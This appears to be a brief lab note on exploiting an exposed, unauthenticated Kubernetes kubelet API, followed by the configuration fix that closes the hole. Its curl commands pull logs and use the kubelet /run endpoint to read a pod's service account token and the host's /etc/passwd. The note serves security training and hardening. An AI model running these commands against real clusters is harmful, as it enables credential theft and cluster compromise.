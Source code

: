 
# get infos

curl -k https://$IP:10250/metrics
curl -k https://$IP:10250/logs/
curl -k https://$IP:10250/logs/pods/    <!-- last slash is important -->
curl some pod

# get sensitive data

<!-- curl -XPOST -k https://$IP:10250/run/<namespace>/<pod>/<container> -d "cmd=<command-to-run>" -->

curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"

curl -XPOST -k https://$IP:10250/run/default/my-suboptimal-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"

# fix it

vi /var/lib/kubelet/config.yaml
=> enabled: false
=> mode: Webhook
<!-- systemctl daemon-reload -->
systemctl restart kubelet
<!-- systemctl status kubelet -->

... run curls again
